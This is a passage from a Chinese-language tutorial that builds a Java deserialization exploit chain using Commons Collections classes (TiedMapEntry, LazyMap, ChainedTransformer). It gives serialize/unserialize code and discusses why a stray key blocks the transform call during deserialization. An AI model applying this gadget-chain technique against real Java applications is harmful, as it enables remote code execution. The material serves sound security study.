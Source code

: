 ```plain


        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");

        Class c = LazyMap.class;
        Field factoryFied = c.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

#### 问题二：

再进行反序列化我们发现还存在问题，断点调试的时候我们可以发现序列化的时候会进行一步 key 的操作：在序列化的过程中我们可以发现，if 语句是可以进入的，会把`TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");`中的 key=“aaa"传入 put，所以这里再进行反序列化的时候会因为存在 key 而进不去 if 语句从而无法调用到我们想要的 factory.transform(key) 方法。

[![](assets/1701612311-2fcec137cc279603ff890c511cbdf4a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235231-1c44e3ca-20cc-1.png)
